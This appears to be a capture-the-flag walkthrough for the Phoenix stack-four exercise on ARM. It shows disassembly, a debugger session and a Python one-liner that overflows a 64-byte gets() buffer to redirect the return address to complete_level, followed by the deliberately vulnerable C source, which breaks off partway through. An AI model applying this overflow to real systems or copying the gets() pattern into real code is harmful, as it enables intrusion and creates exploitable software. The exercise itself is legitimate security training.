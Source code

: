 > Welcome to phoenix/stack-four, brought to you by https://exploit.education
> AAAA
> and will be returning to 0x105bc

It was trying to move back from the `start_Level` function to the `main` function.
```
[0x00010620]> pdf @main
/ (fcn) sym.main 48
// removed for brevity
|           0x000105b8      e8ffffeb       bl sym.start_level
|           0x000105bc      0030a0e3       mov r3, 0              <-- code is moving back here
|           0x000105c0      0300a0e1       mov r0, r3
|           0x000105c4      04d04be2       sub sp, fp, 4
\           0x000105c8      0088bde8       pop {fp, pc}           <-- end of program
```
This was the address to modify.  I would change from `0x000105bc` (back to the Main function) to `0x00010544`; the `complete_level` address.
```
// Overflowed with 80 x As
gef> x $fp
$r11 : 0x41414141
0xfffefd74:	0x00010000
```
Now we control the `$fp` register (`r11`).
```
// Bash
$ python -c 'print "A"*(80) + "\x44\x05\x01\x00"' | ./stack-four

// inside gdb
gef> r <<< $(python -c 'print "A"*80 + "\x44\x05\x01\x00"')

Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x105bc
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
##### Source code
```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
```

  [6435d6f8]: https://azeria-labs.com/functions-and-the-stack-part-7/ "stack explained on ARM"
